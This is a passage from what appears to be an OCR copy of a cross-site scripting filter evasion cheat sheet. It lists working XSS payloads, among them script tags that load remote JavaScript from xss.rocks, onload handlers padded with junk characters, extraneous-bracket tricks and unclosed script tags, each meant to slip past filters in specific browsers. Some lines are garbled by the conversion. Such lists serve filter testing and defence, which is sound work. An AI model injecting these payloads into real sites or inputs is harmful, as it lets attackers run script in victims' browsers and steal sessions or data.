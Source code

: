 `<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>`

Based on the same idea as above, however,expanded on it, using Rnake
fuzzer. The Gecko rendering engine allows for any character other than
letters, numbers or encapsulation chars (like quotes, angle brackets,
etc...) between the event handler and the equals sign, making it easier
to bypass cross site scripting blocks. Note that this also applies to
the grave accent char as seen here:

``<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>``

Yair Amit brought this to my attention that there is slightly different
behavior between the IE and Gecko rendering engines that allows just a
slash between the tag and the parameter with no spaces. This could be
useful if the system does not allow spaces.

`<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>`

## Extraneous open brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain
detection engines that work by first using matching pairs of open and
close angle brackets and then by doing a comparison of the tag inside,
instead of a more efficient algorythm like Boyer-Moore that looks for
entire string matches of the open angle bracket and associated tag (post
de-obfuscation, of course). The double slash comments out the ending
extraneous bracket to supress a JavaScript error:

`<`

<SCRIPT>

alert("XSS");//\<

</SCRIPT>

## No closing script tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't
actually need the "\>

</SCRIPT>

" portion of this Cross Site Scripting vector. Firefox assumes it's safe
to close the HTML tag and add closing tags for you. How thoughtful\!
Unlike the next one, which doesn't effect Firefox, this does not require
any additional HTML below it. You can add quotes if you need to, but
they're not needed generally, although beware, I have no idea what the
HTML will end up looking like once this is injected:

`<SCRIPT SRC=http://xss.rocks/xss.js?< B >`

## Protocol resolution in script tags

This particular variant was submitted by Łukasz Pilorz and was based
partially off of Ozh's protocol resolution bypass below. This cross site
scripting example works in IE, Netscape in IE rendering mode and Opera
if you add in a
